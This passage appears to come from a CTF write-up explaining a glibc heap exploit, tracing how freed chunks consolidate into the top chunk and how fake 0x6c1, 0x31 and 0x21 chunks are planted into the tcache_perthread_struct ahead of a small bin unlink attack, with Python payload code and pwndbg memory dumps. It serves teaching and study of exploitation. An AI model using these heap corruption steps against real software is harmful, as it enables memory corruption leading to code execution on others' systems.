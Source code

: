 Freeing the 0x600 chunk now will first consolidate the 0x600 chunk back onto the 0x230 chunk and insert it into the unsorted bin. Then, since the top chunk borders this free chunk, the top chunk will also be consolidated backwards onto it:
```python
# 0x600 chunk will now be freed and consolidated back to the fake 0x230 sized chunk
# Top chunk is right after this, so top chunk is consolidated all the way back too
sell(2)
```
```c
pwndbg> x/10gx 0x5595bf50f880
0x5595bf50f880: 0x0000000000000000      0x0000000000000091
0x5595bf50f890: 0x0000000000000000      0x0000000000020771 <- new top chunk
0x5595bf50f8a0: 0x00005595bf50f898      0x00005595bf50f8a0
0x5595bf50f8b0: 0x00005595bf50f898      0x0000000000000000
0x5595bf50f8c0: 0x0000000000000000      0x0000000000000000
```

Now, I said initially that **Balsn** does a small bin unlink attack. They use this attack to get a chunk inside the `tcache_perthread_struct`. In order the pass the checks when unlinking, the 0x20 and 0x30 tcache bins must have pointers in them that point to chunks whose `fd` and `bk` must be under our control.

If you look above, before we freed the 0x600 chunk and consolidated it backwards, we created three 0x80 sized chunks in indexes 5, 0, and 1. **Balsn** now creates a 0x500 sized chunk and does the following:

1. Insert a 0x6c1 sized fake chunk. Index 5 from above will point to this chunk.
2. Insert a 0x31 sized fake chunk. Index 0 from above will point to this chunk.
3. Insert a 0x21 sized fake chunk. Index 1 from above will point to this chunk.
4. Free the 0x20 and 0x30 sized chunks to populate their corresponding tcache bins in the `tcache_perthread_struct`.
5. Finally, free the 0x500 sized chunk to consolidate the top chunk back again. Now, with any new allocations we make, we are able to control the metadata of those chunks. The important bit is that we've inserted them as pointers into the `tcache_perthread_struct`.

This step is extremely important for the next part of the exploit. I will refer back to here when needed.
```python
# Index 5 will be the 0x6c1 sized fake chunk in the payload
# Index 0 will be the 0x31 sized chunk
# Index 1 will be the 0x21 sized chunk
payload = '\x00'*0x78 + p64(0x6c1) # Index 5
payload += p64(0)*17 + p64(0x31) # Index 0
payload += p64(0)*17 + p64(0x21) # Index 1
payload += p64(0)*15
buy(2, 0x500, payload)

# We put pointers to these chunks into the tcache_perthread_struct now
# This is required later when we do the small bin unlink attack
sell(0) # Free 0x30 sized chunk
sell(1) # Free 0x20 sized chunk

# Consolidate backwards again
# Any new allocations following this will allow us to overwrite the metadata of any
# of the chunks from above
sell(2)
```
